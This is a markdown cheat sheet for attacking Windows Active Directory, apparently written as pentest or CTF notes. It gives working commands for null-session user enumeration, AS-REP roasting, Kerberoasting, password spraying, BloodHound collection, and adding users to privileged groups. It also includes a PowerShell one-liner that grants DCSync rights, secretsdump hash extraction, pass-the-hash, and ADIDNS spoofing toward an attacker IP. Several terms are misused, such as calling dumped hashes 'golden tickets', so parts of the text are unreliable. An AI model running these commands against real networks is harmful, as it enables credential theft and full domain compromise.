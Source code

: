 ## First and foremost
To start enumerating the active directory forest we need to have some kind of shell in the network, which can be claimed by any means. Web, SSH, etc.

But if all fails then what we have is kerberos and dns enumerations.
We can find number of machines in the DOMAIN and their IP addresses using dig and nslookup

If a user in the AD setting has the setting "Do not require Kerberos preauthentication" or UF_DONT_REQUIRE_PREAUTH set to true and we have its username then we can ask the kdc for a TGT which is encrpyted with the user's NTLM hash, which we can then crack in offline mode to get the user's password.
So, in order to get usernames we can use rpcclient to enumerate groups and users in the domain using a null rpc session using `rpcclient -U "" -N IP` and then doing
* `enumdomusers` for enumerating users 
* `queryuser RID` to query information about the user having the RID
* `enumdomgroups` to enumerate groups
* `enumprivs` to enumerate privileges
* `netshareenumall` to enumerate all shares
* `enumprinters` to enumerate printers
* `setuserinfo2` to reset the password of the user
* `lsaquery` to get domain SID
* `querydominfo` to get information on the domain
* `lsaenumsid` to get SID's of users

If with these means we do not get usernames then we need to recon the web app or need to adopt other means of getting usernames

After we do get list of usernames, we can make a wordlist out of it and use GETNPUsers.py from impacket to get TGT's of the users having the misconfig using `GETNPUsers.py DOMAIN NAME -dc-ip DOMAIN CONTROLLER IP -no-pass -userfile WORDLIST`

Then after getting TGT's we try to crack them to get clear text passwords which we can use to get a shell through either winrm, ssh or whatever services enable us to

If we do not get any TGT's, but instead get a password then we can user kerbrute to check bruteforce usernames with the passwords with the kdc or we can even use crackmapexec in different modes like, smb to see if we can get any hits on any usernames. The syntax should be as follows `crackmapexec smb 'IP ADDRESS HERE' -u 'USER WORDLIST HERE' -p 'PASSWORD HERE'`

## Second
We transfer sharphound.exe to our victim. Sharphound is a data collector tool(ingestor) for bloodhound. Bloodhound is a visualizer of the AD network and enables us to analyze it better.
If we are using evilwinrm then after loading sharphound in the powershell session, we can find the command by using `menu` on the evilwinrm shell, which is `Invoke-Bloodhound`.

Another way of getting a bloodhound ingestor to work is remotely through bloodhound-python package which needs credentials of the user. The python script can be found here https://github.com/fox-it/BloodHound.py.

After transfering the zip to our machine we can import the zip to bloodhound which will make us a graph of the network and will also graph the permissions, groups, everything. It even gives us hints as to what to exploit to reach what target.

## Third
Check for any ServicePrinicipalNames(SPNs) of other users from which we can extract a kerberos silver ticket and then try cracking it to get credentials. To get SPNs and silver ticket we need the following command `GetUserSPNs.py -request -dc-ip DomainControllerIP Domain/Username:Password`.

## Fourth
If the Link says MemberOf, then we can disregard it, why? we can read that using right clicking on the link.

If the Link says GenericAll, then we can just add the group to our user by simply doing `net group "GROUP NAME" USERNAME /add /domain` and get the elevated perms given to the group we just added ourselves to

### WriteDacl

If the Link says WriteDacl and the abuse info says that we can do a dcsync attack then we can simply type this oneliner `Add-DomainGroupMember -Identity 'GROUP NAME' -Members USERNAME; $username = "HOSTNAME\USERNAME"; $password = "PASSWORD"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'USERNAME' -TargetIdentity 'DOMAINNAME\Domain Admins' -Rights DCSync`.

And after that simply use secretsdump.py from impacket to get kerberos golden tickets of the accounts due to the nature of DCSync attack by using `secretsdump.py USERNAME:PASSWORD@DC IP`

## Lastly
The 2nd part of the golden ticket will be the hash required for a pass the hash attack, which we may use to get access via evilwinrm or we might try to crack it, to get cleartext passwords

## Note
1. Earlier there was something called as Group Policy Preferences in windows AD which enabled administrators to easily change settings, credentials, etc. using a GPP, but the service which was used had its credentials stored in an xml file in the SYSVOL directory in `\DOMAIN\Policies\{SOME UUID CODE idk what}\MACHINE\Preference\Groups` called Groups.xml. But the credentials were stored in clear text only encryped with an AES 32 byte key, but the bug was that the SYSVOL share was world readable for all the users in the domain, hence anyone could get the encrypted password, crack it and get privelages. Hence this service was disabled by microsoft in 2014 in its advisory ms14-025, but old systems still might have them.

2. Windows AD's also have an inbuilt DNS db called ADIDNS, in which by default any "authenticated user" can add records using ldap (provided that record doesnt already exist in it, more on that here https://www.netspi.com/blog/technical/network-penetration-testing/exploiting-adidns/). So if you want to add DNS records in the ADIDNS db then first u need to check if record with the same name already exists or not. This is done by using the follows `python3 dnstool.py -u 'DOMAIN\USERNAME' -p 'PASSWORD' --record 'DNS RECORD NAME' --action 'query' <DC IP>`, after that, if there already exists a record, and you are simply a low prived user then there is nothing you can do. But if there is no IP assosiated with that DNS Record then you can add your own IP to that Record, by the following `python3 dnstool.py -u 'DOMAIN\USERNAME'-p 'PASSWORD' --record 'DNS RECORD NAME' --action 'add' --data <ATTACKER IP> <DC IP>` more on that, here https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing
